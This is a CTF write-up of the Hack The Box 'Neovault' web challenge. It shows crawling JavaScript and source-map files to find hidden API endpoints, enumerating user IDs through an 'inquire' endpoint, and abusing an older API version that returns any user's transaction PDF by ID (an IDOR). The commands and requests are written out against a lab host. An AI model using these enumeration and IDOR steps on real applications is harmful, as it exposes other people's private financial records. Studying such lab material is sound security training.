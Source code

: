 ```yaml
---
date:
  created: 2025-08-04
categories:
  - CTF Writeup
  - Hackthebox
  - JavaScript Analysis
  - Web Application Penetration Testing
authors:
  - dibsy
---
```


# HTB Neovault Writeup

### Summary

This challenge involved client-side reconnaissance through JavaScript `.map` and `.js` files served by a Next.js application. By mining and crawling those files, we uncovered hidden API endpoints, enumerated users via an `inquire` endpoint, and eventually downloaded user-specific transaction PDFs to retrieve the flag.

<!-- more -->

### Reconnaissance with JS Miner

Using **JS Miner**, we crawled source files and `.map` files from a Next.js application hosted at:

```
http://94.237.54.192:40799/_next/static/chunks/...
```

Some sample file hits:
```
[SKIPPED] Task ID: 2 SECRETS_SCAN http://94.237.54.192:40799/_next/static/chunks/app/dashboard/transactions/page-2a49e3cac0ce0da4.js
[SKIPPED] Task ID: 2 SECRETS_SCAN http://94.237.54.192:40799/_next/static/chunks/181-787eb1c908725cd7.js
```

### Cleaning and Downloading JS Files

First, we cleaned the JS file URLs from the output.

```bash
grep -oE 'http://[^ ]+' out.txt > urls.txt
```

Then, downloaded all files using:

```bash
for url in $(cat urls.txt); do curl -O $url; done
```

### Extracting API Endpoints

A combination of `grep` commands was used to extract API paths:

```bash
(
  grep -Eroh '"\/api\/[a-zA-Z0-9_\/\-]+' *.js* ;
  grep -Eroh '"https?:\/\/[^"]+\/api\/[a-zA-Z0-9_\/\-]+' *.js* ;
  grep -Eroh 'fetch\(["'"'"']\/api\/[^"'"'"']+' *.js* ;
  grep -Eroh 'axios\.(get|post|put|delete)\(["'"'"']\/api\/[^"'"'"']+' *.js*
) | sed 's/^"//' | sort -u > api_endpoints.txt
```

This revealed multiple interesting API routes:

```
/api/v1/auth/login
/api/v1/auth/me
/api/v1/transactions/deposit
/api/v2/auth/inquire
/api/v2/transactions/categories-spending
...
```

### Enumerating Users

While investigating `/api/v2/transactions`, we noticed a transaction **received from `neo_system`**.

We queried the `inquire` endpoint:

!!! info "GET /api/v2/auth/inquire?username=neo_system"
```http
Host: 94.237.54.192:40799
```

Response:
```json
{
  "_id": "6890ef01ab3aae0490a87775",
  "username": "neo_system"
}
```

### Exploring the Download API

The `download-transactions` API could export a user’s transaction history as PDF.

- `/api/v2/transactions/download-transactions` didn’t require an `_id`.
- However, the same endpoint in `v1` version **did require an `_id`**.

!!! info "POST /api/v1/transactions/download-transactions"
```json
{
  "_id": "6890ef01ab3aae0490a87775"
}
```

The PDF showed a transaction from user: `user_with_flag`.

### Final Enumeration & Flag Retrieval

Queried `user_with_flag` using the same method:

!!! info "GET /api/v2/auth/inquire?username=user_with_flag"
```http
Host: 94.237.54.192:40799
```

Response:
```json
{
  "_id": "6890ef01ab3aae0490a8777a",
  "username": "user_with_flag"
}
```

Used the `_id` to download the final PDF:

!!! info "POST /api/v1/transactions/download-transactions"
```json
{
  "_id": "6890ef01ab3aae0490a8777a"
}
```

In the PDF we find:

```
7/28/2025 user_with_flag user_with_flag HTB{n0t_s0_..........}
7/28/2025 neo_system user_with_flag Welcome bonus credit Amount 1337.00
```

### Conclusion

This challenge demonstrated the importance of **client-side JavaScript analysis**. Mining `.map` files and source code led to full API discovery, user enumeration, and a privilege escalation-like workflow by exploiting version differences between API endpoints.
